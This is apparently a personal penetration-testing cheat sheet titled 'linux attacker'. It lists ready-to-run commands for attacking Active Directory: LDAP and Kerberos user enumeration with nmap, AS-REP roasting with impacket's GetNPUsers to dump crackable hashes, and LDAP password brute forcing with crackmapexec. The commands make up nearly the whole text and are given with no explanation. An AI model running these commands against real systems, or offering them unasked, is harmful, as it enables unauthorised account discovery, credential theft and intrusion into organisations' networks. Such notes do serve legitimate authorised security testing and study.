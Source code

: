 # linux attacker

## enumerate LDAP

```bash
nmap -n -sV --script "ldap* and not brute" -p 389 $rhost
```

## enumerate users with kerberos

```bash
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<some.domain>',userdb=/usr/share/seclists/Usernames/cirt-default-usernames.txt $rhost
```

## enumerate with AS_REP message

```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py <some.domain>/ -usersfile /usr/share/seclists/Usernames/Honeypot-Captures/multiplesources-users-fabian-fingerle.de.txt -format hashcat -outputfile hashes.asreproast
```

## bruteforce ldap

```bash
crackmapexec ldap $rhost -u users.txt --kdcHost $rhost -p 'some.password'
```
